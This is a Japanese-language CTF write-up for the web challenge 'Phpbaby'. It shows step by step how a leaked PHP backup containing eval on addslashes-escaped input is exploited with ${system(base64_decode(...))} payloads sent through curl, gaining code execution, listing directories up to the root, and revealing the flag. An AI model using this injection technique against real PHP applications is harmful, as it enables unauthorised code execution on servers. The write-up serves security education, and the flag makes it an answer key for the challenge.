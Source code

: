 # Phpbaby:Web:528pts
Get the flag located at the root filesystem  
[Click here](https://ch3.sbug.se/)  

# Solution
アクセスすると何やらAAが動いているサイトだ。  
[site.png](site/site.png)  
ソースを見ると不審な点はなく、以下のコメントがあるだけだった。  
```bash
$ curl https://ch3.sbug.se/
~~~
<!-- Access To Source Code Is Not Allowed! -->
~~~
```
手始めに`/robots.txt`を見ると以下であった。  
```bash
$ curl https://ch3.sbug.se/robots.txt
user-agent: *
disallow: /Source_Code_Backup
```
`/Source_Code_Backup`にアクセスしてみると、リダイレクトの後ソースに以下があった。  
```bash
$ curl https://ch3.sbug.se/Source_Code_Backup -L
~~~
<!--
// Source Code Backup:
$SBCTF=@(string)$_GET['SBCTF'];
filter($boycott, $SBCTF);
eval('$SBCTF="'.addslashes($SBCTF).'";');
-->
```
addslashesを突破するのは簡単で変数展開を用い`${system(ls)}`などやれば任意のコードが実行できる。  
文字列の扱いに困った場合はbase64などをかけてやればよい。  
```bash
$ curl 'https://ch3.sbug.se/?SBCTF=$\{system(base64_decode(bHMg))\}'
<br />
<b>Warning</b>:  Use of undefined constant bHMg - assumed 'bHMg' (this will throw an Error in a future version of PHP) in <b>/var/www/html/index.php(15) : eval()'d code</b> on line <b>1</b><br />
SBCTF.png
Source_Code_Backup
abcs.png
index.php
lettercrap.css
lettercrap.js
robots.txt
~~~
$ curl 'https://ch3.sbug.se/?SBCTF=$\{system(base64_decode(bHMgLi4v))\}'
~~~
html
~~~
$ curl 'https://ch3.sbug.se/?SBCTF=$\{system(base64_decode(bHMgLi4vLi4v))\}'
~~~
backups
cache
lib
local
lock
log
mail
opt
run
spool
tmp
www
~~~
$ curl 'https://ch3.sbug.se/?SBCTF=$\{system(base64_decode(bHMgLi4vLi4vLi4v))\}'
~~~
SBCTF{eval_93da83d498872a4028dac140d1574290}
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
~~~
```
ルートにflagをファイル名としたものがあった。  

## SBCTF{eval_93da83d498872a4028dac140d1574290}